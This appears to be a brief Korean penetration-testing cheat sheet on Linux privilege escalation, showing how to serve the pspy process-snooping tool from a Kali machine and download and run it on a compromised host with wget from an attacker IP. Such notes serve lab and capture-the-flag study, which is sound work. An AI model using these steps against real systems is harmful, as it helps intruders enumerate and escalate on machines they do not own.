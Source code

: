 # 리눅스 권한 상승

## 열거&#x20;

### PSpy

다양한 정보 획득 가능&#x20;

```bash
//칼리리눅스에서 
python -m http.server 80

//침투컴퓨터에서
wget 10.10.14.47/pspy32
./pspy32 #권한문제로 안된다면 chmod 사용
```
